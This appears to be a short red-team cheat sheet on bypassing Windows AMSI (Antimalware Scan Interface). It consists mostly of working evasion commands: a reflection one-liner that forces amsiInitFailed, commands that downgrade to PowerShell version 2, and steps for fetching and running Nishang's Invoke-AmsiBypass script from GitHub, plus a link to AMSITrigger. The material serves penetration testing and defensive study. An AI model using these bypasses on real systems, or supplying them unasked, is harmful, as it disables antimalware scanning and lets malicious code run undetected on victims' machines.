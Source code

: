 # AMSI Bypass

AMSI is short for Antimalware Scan Interface.

The goal of AMSI is to prevent the execution of arbitrary code containing malicious content.

## Basic - Forcing an AMSI Initialization Failure

Likely detectable

`[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`

## Downgrading PowerShell

`powershell.exe -version 2`

`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Version 2`

checking version

`$PSVersionTable`


## Nishang

https://raw.githubusercontent.com/samratashok/nishang/master/Bypass/Invoke-AmsiBypass.ps1

`. .\Invoke-AmsiBypass.ps1`

Or copy the code from github and paste it directly into the powershell console

`Invoke-AmsiBypass -Verbose`

## AMSITrigger - Find Detectable Strings

`https://github.com/RythmStick/AMSITrigger`

